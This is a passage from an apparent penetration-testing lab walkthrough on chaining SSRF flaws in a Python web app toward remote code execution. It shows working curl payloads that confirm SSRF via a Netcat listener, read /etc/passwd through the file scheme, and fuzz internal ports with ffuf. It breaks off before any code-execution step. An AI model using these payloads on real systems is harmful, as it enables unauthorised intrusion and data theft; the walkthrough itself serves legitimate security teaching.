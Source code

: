 In this example, we will be exploiting an internet-facing web application and work to get remote code execution on an internal host by chaining multiple SSRF vulnerabilities. The attack flow shall be as follows:
```
PENTESTER -> SSRF on Internet-facing App -> SSRF on Internal Web Server -> RCE on Local Web App.
```
First we issue a cURL request to the target server using the parameters `-i` to show the protocol response headers, `-s` to use the silent mode, and `-L` to follow any redirects.
```bash
curl -i -s -L http://<TARGET IP>

HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://<TARGET IP>/load?q=index.html
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 153
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

<html>
<!-- ubuntu-web.lalaguna.local & internal.app.local load resources via q parameter -->
<body>
<h1>Bad App</h1>
<a>Hello World!</a>
</body>
</html>
```
## Testing for SSRF
Then we confirm if the `q` parameter is vulnerable to SSRF by starting up a Netcat listener, as follows:
```bash
nc -nvlp 4444
```
```bash
curl -i -s "http://<TARGET IP>/load?q=http://<OUR IP>:4444"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 0
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 12:07:10 GMT
```
## Confirming SSRF
Checking into our Netcat listener, we can see that the target application made a request, confirming a SSRF vulnerability.
```bash
Connection received on <TARGET IP> 49852
GET / HTTP/1.1
Accept-Encoding: identity
Host: <OUR IP>:4444
User-Agent: Python-urllib/3.8
Connection: close
```
Reading the [Python-urllib](https://docs.python.org/3.8/library/urllib.html) documentation, we can see it supports `file`, `http` and `ftp` schemas. So, apart from issuing HTTP requests to other services on behalf of the target application, we can also read local files via the `file` schema and remote files using `ftp`.
## Retrieve local file using FTP schema
We can test this functionality by requesting for the `/etc/passwd` file.
```bash
curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 926
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:27:17 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...[TRIM]...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
...[TRIM]...
```
## Port Scanning for Internal Apps using Ffuf
Next we will perform a port scan to look for any internal applications that we can exploit.

1. But first, we should generate a port wordlist using the following:
```bash
for port in {1..65535}; do echo $port >> ports.txt; done
```
2. We will then use Ffuf to fuzz for any open ports.
```bash
ffuf -w ports.txt -u "http://<TARGET IP>/load?q=http://127.0.0.1:FUZZ" -fs 30

...[TRIM]...
80                      [Status: 200, Size: 153, Words: 11, Lines: 8]
5000                    [Status: 200, Size: 64, Words: 3, Lines: 1]
:: Progress: [65535/65535] :: Job [1/1] :: 577 req/sec :: Duration: [0:02:00] :: Errors: 0 ::
```
3. Confirm that port 5000 is working.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 64
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:47:16 GMT

<html><body><h1>Hey!</h1><a>Some internal app!</a></body></html>
```
## Attacking Internal Web App
Now that we know how to reach internal applications, we can now try attacking `ubuntu-web.lalaguna.local` & `internal.app.local` to try and achieve RCE on an internal host.

1. Issue a simple cURL request to the internal application, we can use the `q` parameter on this one since we discovered earlier that it uses the same process to load resources.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 97
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:52:32 GMT

<html><body><h1>Resource: http127.0.0.1:1</h1><a>unknown url type: http127.0.0.1</a></body></html>
```
### Port Fuzzing 